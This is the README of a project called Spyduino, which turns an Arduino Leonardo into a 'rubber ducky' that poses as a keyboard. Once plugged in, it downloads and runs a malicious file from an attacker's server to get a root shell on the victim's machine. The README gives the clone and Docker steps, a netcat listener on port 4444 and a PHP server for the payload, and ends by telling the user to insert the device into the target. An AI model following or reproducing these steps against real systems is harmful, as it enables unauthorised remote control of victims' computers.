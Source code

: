 # Spyduino
An example of a rubber ducky with Arduino Leonardo

## Overview

![immagine](./media/Cattura.PNG)



The Arduino Leonardo has been loaded with a malicious program. 

Once the board is inserted into the target system, it is recognized as an HID and performs a malicious script. 

The script performs the downloading and execution of a malicious file from the attacker's server, allowing him to obtain a root shell of the victim.





## install

``` git clone https://github.com/JordanC996/Spyduino.git ```
 
## run

build an image from dockerfile

`docker build . `

run the image

`docker container run -it <id-image>` 

run netcat command

`nc -lvp 4444`

run php server listening on port 80

`php -S 172.17.0.2:80`

load arduino code on arduino Leonardo and get your Spyduino

insert the Spyduino in the target system!
